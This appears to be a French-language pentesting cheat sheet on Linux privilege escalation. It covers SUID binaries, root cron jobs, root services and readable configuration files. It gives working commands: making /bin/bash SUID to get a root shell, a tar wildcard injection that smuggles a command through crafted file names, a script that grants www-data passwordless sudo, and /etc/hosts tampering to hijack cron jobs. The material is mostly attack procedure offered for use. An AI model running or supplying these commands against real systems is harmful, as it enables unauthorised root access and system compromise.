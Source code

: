 * **Base de la faille** : Les fichiers/binaires avec le bit SUID activé permet d'executer ce fichier en tant que la personne propriétaires du dit fichier
* **Comment c'est possible** : Un fichier/binaire appartenant à root avec le SUID activé peut être executé par tout le monde en tant que root
1. Lister les binaires (commandes), exécutable en tant que leur propriétaires (root)
```
find / -user root -perm -4000 -type f 2>/dev/null
```
2. Ajouter le SUID via une autre faille (dans un fichier par exemple)
```
chmod +s /bin/bash
/bin/bash -p 
```
## Cron
* **Base de la faille** : Des tâches `cron` executés en tant que root peuvent être attaquables en modifiant l'exécution finale de la tache et on peut se créer un reverse shell root
1. Lister les tâches qui seront executés de facons régulière en tant que root
```
cat /etc/crontab
crontab -l -u root
ls -la /etc/cron.d/
cat /etc/cron.daily/*
cat /etc/cron.hourly/*
cat /etc/cron.monthly/*
cat /etc/cron.weekly/*

```
2. Si un tache est exécuté et se base sur un URL, on peut modifier /etc/hosts
3. Voir si archivage, si possibilité de tar wildcard avec archivage complet d'un repetoire
```
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > sudo.sh  
touch "/var/www/html/--checkpoint-action=exec=sh sudo.sh"  
touch "/var/www/html/--checkpoint=1"
```

## Services root 
* **Base de la faille** : Les services sont souvent lancés avec des droits élevés. Si un service est vulnérable ou mal configuré, il peut être exploité pour obtenir ces droits.
* **Comment c'est possible** : Un service mal configuré pourrait, par exemple, charger des bibliothèques à partir d'un chemin non sécurisé, permettant à un attaquant d'y injecter sa propre bibliothèque.
1. Lister les services qui se lancent en root pour y injecter des modifications
```
systemctl list-units --type=service --state=running
```

## Fichier de configuration mal configurés
* **Base de la faille** : Les fichiers de configuration peuvent parfois contenir des informations sensibles comme des mots de passe. Si ces fichiers sont lisibles par des utilisateurs non privilégiés, ils peuvent être exploités.
* **Comment c'est possible** : Un attaquant qui peut lire un fichier de configuration contenant un mot de passe en clair peut utiliser ce mot de passe pour obtenir des privilèges ou accéder à d'autres systèmes ou services.
```
find /etc/ -readable -type f 2>/dev/null
```
